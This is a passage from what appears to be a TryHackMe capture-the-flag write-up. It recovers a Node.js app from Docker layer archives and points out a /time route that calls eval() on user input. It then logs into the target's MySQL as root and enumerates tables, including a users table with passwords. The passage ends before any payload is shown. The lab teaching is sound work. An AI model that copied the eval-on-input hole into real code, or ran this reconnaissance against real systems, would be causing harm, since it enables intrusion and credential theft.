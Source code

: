 The blobs are actually tar.gz archives that contain the diff to the file system after building the layer. While we should probably check all the archives, we can assume that the largest archive files are OS and framework related. Digging around in the different archives, we can assemble the source code for the app (found in /usr/src/app), which appears to be the one running on port 8080 of the machine. 

In the app.js file one action stands out immediatly as vulnerable:

```js
// http://localhost:8080/time
app.post('/time', function(request, response) {
	
    if (request.session.loggedin && request.session.username) {

        let timeCalc = parseInt(eval(request.body.time));
		let time = isNaN(timeCalc) ? 0 : timeCalc;
        let username = request.session.username;

		connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
			if (error) {
				log(error, "error")
			};

			log(`${username} added ${time} minutes.`, "info")
			response.redirect('/');
		});
	} else {
        response.redirect('/');;	
    }
	
});
```

Now all we need is a valid logon to test our theory. As we already have the credentials required to connect to the database, we can connect to the db and see if we can create one manually there. On the THM AttackBox mysql client is not installed by default, so we first install it:

```bash 
sudo apt install mysql-client
mysql -h $IP -u root -p
```

Then we start enumerating the mysql server. 

```sql
select * from sys.version;
+-------------+---------------+
| sys_version | mysql_version |
+-------------+---------------+
| 1.5.2       | 5.7.40        |
+-------------+---------------+

select table_catalog, table_schema, table_name from information_schema.tables where table_type = "BASE TABLE";
+---------------+--------------------+------------------------------------------------------+
| table_catalog | table_schema       | table_name                                           |
+---------------+--------------------+------------------------------------------------------+
...
| def           | timetracking       | users                                                |
+---------------+--------------------+------------------------------------------------------+


select * from timetracking.users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
```